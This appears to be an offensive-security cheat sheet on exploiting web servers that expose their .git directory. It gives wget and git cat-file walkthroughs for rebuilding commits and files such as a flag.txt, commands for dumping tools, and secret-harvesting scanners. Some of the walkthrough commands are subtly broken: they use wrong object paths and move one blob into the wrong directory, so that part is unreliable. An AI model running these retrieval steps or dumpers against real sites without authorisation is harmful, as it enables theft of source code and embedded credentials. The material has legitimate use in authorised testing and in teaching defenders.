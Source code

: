 # Git

## Summary

* [Example](#example)
    * [Recovering file contents from .git/logs/HEAD](#recovering-file-contents-from-gitlogshead)
    * [Recovering file contents from .git/index](#recovering-file-contents-from-gitindex)
* [Tools](#tools)
* [Automatic recovery](#automatic-recovery)
    * [git-dumper.py](#git-dumperpy)
    * [diggit.py](#diggitpy)
    * [GoGitDumper](#gogitdumper)
    * [rip-git](#rip-git)
    * [GitHack](#githack)
    * [GitTools](#gittools)
* [Harvesting secrets](#harvesting-secrets)
    * [trufflehog](#trufflehog)
    * [Yar](#yar)
    * [Gitrob](#gitrob)
    * [Gitleaks](#gitleaks)
* [Refererences]


## Example

The following examples will create either a copy of the .git or a copy of the current commit.

Check for the following files, if they exist you can extract the .git folder.

- .git/config
- .git/HEAD
- .git/logs/HEAD

### Recovering file contents from .git/logs/HEAD

1. Check for 403 Forbidden or directory listing to find the `/.git/` directory
2. Git saves all information in `.git/logs/HEAD` (try lowercase `head` too)
  ```powershell
  0000000000000000000000000000000000000000 15ca375e54f056a576905b41a417b413c57df6eb root <root@dfc2eabdf236.(none)> 1455532500 +0000        clone: from https://github.com/fermayo/hello-world-lamp.git
  15ca375e54f056a576905b41a417b413c57df6eb 26e35470d38c4d6815bc4426a862d5399f04865c Michael <michael@easyctf.com> 1489390329 +0000        commit: Initial.
  26e35470d38c4d6815bc4426a862d5399f04865c 6b4131bb3b84e9446218359414d636bda782d097 Michael <michael@easyctf.com> 1489390330 +0000        commit: Whoops! Remove flag.
  6b4131bb3b84e9446218359414d636bda782d097 a48ee6d6ca840b9130fbaa73bbf55e9e730e4cfd Michael <michael@easyctf.com> 1489390332 +0000        commit: Prevent directory listing.
  ```
3. Access the commit using the hash
  ```powershell
  # create an empty .git repository
  git init test
  cd test/.git

  # download the file
  wget http://web.site/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c

  # first byte for subdirectory, remaining bytes for filename
  mkdir .git/object/26
  mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

  # display the file
  git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
      tree 323240a3983045cdc0dec2e88c1358e7998f2e39
      parent 15ca375e54f056a576905b41a417b413c57df6eb
      author Michael <michael@easyctf.com> 1489390329 +0000
      committer Michael <michael@easyctf.com> 1489390329 +0000
      Initial.
  ```
4. Access the tree 323240a3983045cdc0dec2e88c1358e7998f2e39
  ```powershell
  wget http://web.site/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
  mkdir .git/object/32
  mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

  git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
      040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
      100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
      040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
      100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
      040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
  ```
5. Read the data (flag.txt)
  ```powershell
  wget http://web.site/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
  mkdir .git/object/cb
  mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
  git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
  ```

### Recovering file contents from .git/index

Use the git index file parser https://pypi.python.org/pypi/gin (python3).

```powershell
pip3 install gin
gin ~/git-repo/.git/index
```

Recover name and sha1 hash of every file listed in the index, and use the same process above to recover the file.

```powershell
$ gin .git/index | egrep -e "name|sha1"
name = AWS Amazon Bucket S3/README.md
sha1 = 862a3e58d138d6809405aa062249487bee074b98

name = CRLF injection/README.md
sha1 = d7ef4d77741c38b6d3806e0c6a57bf1090eec141
```

## Tools

### Automatic recovery

#### git-dumper.py

```powershell
git clone https://github.com/arthaud/git-dumper
pip install -r requirements.txt
./git-dumper.py http://web.site/.git ~/website
```

#### diggit.py

```powershell
git clone https://github.com/bl4de/security-tools/ && cd security-tools/diggit
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://web.site -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1

-u is remote path, where .git folder exists
-t is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (cd /path/to/temp/folder && git init)
-o is a hash of particular Git object to download
```

#### GoGitDumper

```powershell
go get github.com/c-sto/gogitdumper
gogitdumper -u http://web.site/.git/ -o yourdecideddir/.git/
git log
git checkout
```

#### rip-git

```powershell
git clone https://github.com/kost/dvcs-ripper
perl rip-git.pl -v -u "http://web.site/.git/"

git cat-file -p 07603070376d63d911f608120eb4b5489b507692
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```

#### GitHack

```powershell
git clone https://github.com/lijiejie/GitHack
GitHack.py http://web.site/.git/
```

#### GitTools

```powershell
git clone https://github.com/internetwache/GitTools
./gitdumper.sh http://target.tld/.git/ /tmp/destdir
git checkout -- .
```

### Harvesting secrets

#### trufflehog

> Searches through git repositories for high entropy strings and secrets, digging deep into commit history.

```powershell
pip install truffleHog # https://github.com/dxa4481/truffleHog
truffleHog --regex --entropy=False https://github.com/dxa4481/truffleHog.git
```

#### Yar

> Searches through users/organizations git repositories for secrets either by regex, entropy or both. Inspired by the infamous truffleHog.

```powershell
go get github.com/nielsing/yar # https://github.com/nielsing/yar
yar -o orgname --both
```

#### Gitrob

> Gitrob is a tool to help find potentially sensitive files pushed to public repositories on Github. Gitrob will clone repositories belonging to a user or organization down to a configurable depth and iterate through the commit history and flag files that match signatures for potentially sensitive files.

```powershell
go get github.com/michenriksen/gitrob # https://github.com/michenriksen/gitrob
export GITROB_ACCESS_TOKEN=deadbeefdeadbeefdeadbeefdeadbeefdeadbeef
gitrob [options] target [target2] ... [targetN]
```

#### Gitleaks

> Gitleaks provides a way for you to find unencrypted secrets and other unwanted data types in git source code repositories.

```powershell
# Run gitleaks against a public repository
docker run --rm --name=gitleaks zricethezav/gitleaks -v -r https://github.com/zricethezav/gitleaks.git

# Run gitleaks against a local repository already cloned into /tmp/
docker run --rm --name=gitleaks -v /tmp/:/code/  zricethezav/gitleaks -v --repo-path=/code/gitleaks

# Run gitleaks against a specific Github Pull request
docker run --rm --name=gitleaks -e GITHUB_TOKEN={your token} zricethezav/gitleaks --github-pr=https://github.com/owner/repo/pull/9000

or

go get -u github.com/zricethezav/gitleaks
```


## References

- [Gitrob: Now in Go - Michael Henriksen - January 24, 2024](https://michenriksen.com/blog/gitrob-now-in-go/)
